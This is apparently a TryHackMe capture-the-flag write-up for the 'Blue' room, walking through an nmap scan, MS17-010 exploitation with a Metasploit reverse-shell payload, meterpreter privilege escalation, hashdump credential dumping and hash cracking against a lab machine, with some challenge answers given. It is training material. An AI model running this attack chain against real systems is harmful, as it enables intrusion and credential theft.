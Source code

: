 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Blue_Cover.png" alt="Blue Logo">
</p>

# Blue

This guide contains the answer and steps necessary to get to them for the [Blue]([https://tryhackme.com/room/linuxfundamentalspart1](https://tryhackme.com/room/blue)) room.

## Table of contents

- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

### Recon

In this part of the challenge we will find out more information about our target machine and find a way inside.

*Scan the machine.*

2. How many ports are open with a port number under 1000?

   To find the open ports we can use the following command (keep in mind we only need to scan the first 1000 ports):
   
   ```cmd
   nmap -sV -p-1000 10.10.91.75
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Recon_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>3</details>

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

   We need some more information about the running services and `-sV` didn't give us enough. We can use the `-A` argument to run some additional scripts.
   
   Looking up the OS version for any exploits we can find something we can use.
   
   ![Vulnerability](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Recon_Vulnerability.png)

   ><details><summary>Click for answer</summary>MS17-010</details>

### Gain Access



Start Metasploit

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)



   ><details><summary>Click for answer</summary></details>

3. Show options and set the one required value. What is the name of this value? (All caps for submission)



   ><details><summary>Click for answer</summary></details>

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```cmd
set payload windows/x64/shell/reverse_tcp
```

With that done, run the exploit!

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

### Escalate




1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 



   ><details><summary>Click for answer</summary></details>

2. Select this (use MODULE_PATH). Show options, what option are we required to change?



   ><details><summary>Click for answer</summary></details>

Set the required option, you may need to list all of the sessions to find your target here. 

Run! If this doesn't work, try completing the exploit from the previous task once more.

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 



### Cracking




1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

   

   ><details><summary>Click for answer</summary></details>

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

   

   ><details><summary>Click for answer</summary></details>

### Find flags!



1. Flag1? This flag can be found at the system root. 

   

   ><details><summary>Click for answer</summary></details>

2. Flag2? This flag can be found at the location where passwords are stored within Windows.

   

   ><details><summary>Click for answer</summary></details>

3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

   

   ><details><summary>Click for answer</summary></details>
